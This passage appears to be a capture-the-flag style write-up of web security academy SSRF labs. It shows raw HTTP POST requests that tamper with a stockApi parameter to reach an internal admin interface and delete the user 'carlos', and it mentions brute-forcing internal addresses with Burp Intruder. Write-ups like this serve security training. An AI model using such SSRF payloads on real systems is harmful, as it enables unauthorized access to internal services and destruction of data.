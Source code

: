 ```
stockApi=http://192.168.0.1:8080/product/stock/check?productId=1&storeId=3


```

In this challenge as I don't know the exact IP I used Burp intruder in order to brute force the specific address sorting by status to easily find the correct address.


```
POST /product/stock HTTP/1.1
Host: 0a0c001f03a490dfc01295e700430086.web-security-academy.net
Cookie: session=v3JgTz6xCD4gKIzVbTQ7jCJQsrouiP9g
Content-Length: 62
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a0c001f03a490dfc01295e700430086.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0c001f03a490dfc01295e700430086.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

stockApi=http://192.168.0.55:8080/admin/delete?username=carlos


```


## Lab: SSRF with blacklist-based input filter

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass. 



```
POST /product/stock HTTP/1.1
Host: 0aba009503123003c08dfe0d005c0085.web-security-academy.net
Cookie: session=PdyxyxPKEbH2LzDem6Ct2ihpkjiBB1Qr
Content-Length: 70
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0aba009503123003c08dfe0d005c0085.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aba009503123003c08dfe0d005c0085.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```